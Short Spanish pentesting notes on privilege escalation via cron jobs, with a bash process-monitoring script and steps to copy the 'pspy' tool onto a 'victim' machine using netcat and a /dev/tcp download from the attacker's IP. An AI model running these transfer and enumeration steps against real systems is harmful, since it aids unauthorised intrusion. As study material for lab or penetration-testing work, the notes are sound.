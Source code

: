 #Escalada #Cron

###### Definición:
>Una tarea Cron son tareas que se ejecutan en el sistema a intervalos regulares de tiempo

###### Enumeración
Tenemos dos opciones:
- Hacernos nuestro propio script llamado `procmon.sh`.
	```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
	```

- Herramienta automatizada `pspy`.
	Esta herramienta la obtendremos del siguiente GitHub https://github.com/DominicBreuker/pspy
	Para transferírnosla de una maquina a otra usaremos [[NETCAT]]: 
		- En la maquina atacante: `nc -nlvp <puerto> > pspy`.
		- En la maquina victima: `cat < /dev/tcp/<IP>/<puerto> > pspy`.
		Para comprobar si la transferencia a sido optima podemos comparar hashes con `md5sum pspy`.
	Para ejecutarla la damos permisos de ejecución `chmod +x pspy` y la ejecutamos con `./pspy`.


###### Explotación
Para la explotación esta tarea que se esta ejecutando tiene que ser modificable por nosotros y así poder adaptarla y obtener nuestra escalada de privilegios